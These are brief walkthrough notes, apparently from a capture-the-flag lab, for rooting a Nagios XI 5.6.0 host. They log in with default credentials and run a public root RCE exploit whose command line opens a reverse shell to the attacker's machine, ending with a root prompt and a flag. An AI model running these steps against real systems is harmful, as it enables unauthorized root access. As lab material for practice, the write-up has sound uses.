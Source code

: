 navigate to [**https**](#https://192.168.0.128/nagiosxi/login.php)
[://192.168.0.128/nagiosxi/login.php](#https://192.168.0.128/nagiosxi/login.php)


-  nagiosadmin:admin

successfully authenticated as nagiosadmin\. v5\.6\.0 running

[https://github.com/jakgibb/nagiosxi-root-rce-exploit](#https://github.com/jakgibb/nagiosxi-root-rce-exploit)


sudo apt\-get install php\-curl
sudo apt\-get install php\-dom
sudo service apache2 restart

-  php exploit\.php \-\-host=192\.168\.0\.128 \-\-ssl=true \-\-user=nagiosadmin \-\-pass=admin \-\-reverseip=192\.168\.0\.63 \-\-reverseport=1337
-  # root
-  SunCSR\.Team\.3\.af6d45da1f1181347b9e2139f23c6a5b

